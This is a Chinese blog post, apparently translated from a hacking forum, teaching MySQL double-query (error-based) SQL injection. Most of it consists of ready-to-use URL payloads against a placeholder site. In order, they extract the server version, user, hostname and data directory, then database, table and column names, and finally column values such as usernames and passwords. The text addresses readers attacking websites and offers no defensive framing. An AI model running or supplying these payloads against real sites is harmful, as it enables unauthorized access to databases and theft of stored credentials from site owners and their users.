 ```yaml
---
title: 双查询注入
tags:
  - 互联网
  - 学习
  - 安全
  - 翻译
id: 2726
categories:
  - 我的翻译
date: 2013-02-22 20:57:02
---
```


作者：bystander
论坛：法客论坛
这个东西比较难解释。我就不多解释。尽量通过这篇文章大家能够照猫画虎手注即可。想要深入理解的可以去看看mysql数据库的一些知识

介绍一下双查询注入，有时候我们通过order by 语句获取到了确定的列数，可是当我们使用union select或union select all查询的时候，

<pre class="lang:default decode:true " >f4ck.net/index.php?id=-1 union select 1,2,3,4,5,6--</pre> 

却会出现一个错误提示，列数不一致。

<pre class="lang:default decode:true " >Different Number of Columns</pre> 

而我们使用下面的语句：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select(select concat(cast(concat(version(),user(),@@hostname,0x7e,@@datadir) as char),0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

执行之后就会显示mysql版本，用户名，服务器名, 以及数据目录…

**获取数据库里**

许多人会在上面的语句里使用:database()方法来获取数据库，

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

可是。这个方法只能获取一个数据库。如果你入侵的网站存在多个数据库。上面这个查询就不能用了因此使用下面这个方法更好些。。

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(schema_name as char),0x27,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1</pre> 

不同点在于第二个查询语句在information_schema.schemata里查询 schema_name ，这样就能查到所有的数据库了。
注意语句中的Limit 0,1会显示地一个数据库,改成 Limit 1,1 会显示第二个 Limit 2,1 会显示第三个, Limit 3,1 会显示第四个。。以此类推。
补充个：
在普通的SQL注入中，使用如下的语句

<pre class="lang:default decode:true " >f4ck.net/index.php?id=-1 union select 1,2,3,4,5,schema_name,7,8 from information_schema.schemata--</pre> 

会一次爆出所有的数据库
而使用下面的

<pre class="lang:default decode:true " >f4ck.net/index.php?id=-1 union select 1,2,3,4,5,database(),7,8--</pre> 

只会显示当前站点使用的数据库。

**获取表名**
回正题，我们继续使用双查询来获取数据库的表:

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables Where table_schema=0xHEX LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1</pre> 

注意语句中的table_schema=0xHEX 这里的hex用你要查询的数据库进行hex编码后替换即可。
同样的，这里可以要修改LIMIT后面的值来得到第二个第三个第四个表。

**获取列名**
然后我们来获取列名:

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns Where table_schema=0x"HEXDATABASE" AND table_name=0x"HEXTABLENAME" LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1
</pre> 

和上一句很像，注意这一句"And table_name=0xHEXEDTABLENAME"
还是一样的。后面的部分是要查询的表名的hex值，同时，通过增加后面的LIMIT值来获取更多的列名。下面是大家最感兴趣的地方。。从列里面取值。

**获取列值**
一些人使用：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast("tablename"."columnname" as char),0x27,0x7e) FROM "databasename"."tablename" LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1</pre> 

也就是他们使用tablename.columnname
有个缺点就是一次只能获取一个列的值，要是该表有个1000多列啥的。。一个个就了。。为了更快一些。后来很多人开始使用这个：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select concat(username,0x7e,pass,0x7e7e) from "table" limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

这样一次就能获取多个列的值了，但是还有个bug，因为是直接从mysql的所有表里面找，并且没有指定数据库名，如果mysql有两个数据库有同样的一个表名。那么这样找出来的就不知道到底是哪个了。。就混乱了。。所以。现在我们用这个：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select(select concat(cast(concat(COLUMN_NAME,0x7e,COLUMN_NAME) as char),0x7e)) from database.table limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

好处一个是可以一次获取多个列的值，同时使用 database.table, 可以明确我们要找的表了。不要忘了增加LIMIT来获取下一条记录啊

错误之处还请指正。